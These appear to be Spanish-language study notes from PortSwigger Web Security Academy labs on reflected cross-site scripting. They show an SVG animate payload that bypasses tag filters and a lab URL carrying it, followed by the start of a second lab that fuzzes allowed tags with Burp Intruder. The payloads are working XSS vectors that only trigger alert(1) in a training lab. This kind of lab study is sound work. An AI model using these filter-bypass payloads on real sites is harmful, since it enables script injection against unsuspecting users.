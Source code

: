 ```html
<svg><animate xlink:href=#xss attributeName=href dur=5s repeatCount=indefinite keytimes=0;0;1 values="https://portswigger.net?&semi;javascript:alert(1)&semi;0" /><a id=xss><text x=20 y=20>XSS</text></a>
```

Lo modificamos a nuestras necesidades. Hay que tener en cuenta que no disponemos de laboratorio de explotacion por lo cual tiene que ir en nuestra url...
```html
https://0a5c00aa04ed4850c06219c6003200b6.web-security-academy.net/?search=<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```


![](assets/2022-07-15-11-34-05.png)

## Lab: Reflected XSS with some SVG markup allowed
This lab has a simple reflected XSS vulnerability. The site is blocking common tags but misses some SVG tags and events.

To solve the lab, perform a cross-site scripting attack that calls the alert() function.


- Nos da la pista tags and events.
- call alert()

Lo básico, probamos el script en la url pero nos da como que el tag no está permitido.

![](assets/2022-07-15-11-42-02.png)


Como siempre, vamos a buscar en el search con intruder y los tag, luego evento etc... hasta que podamos poner un alert()
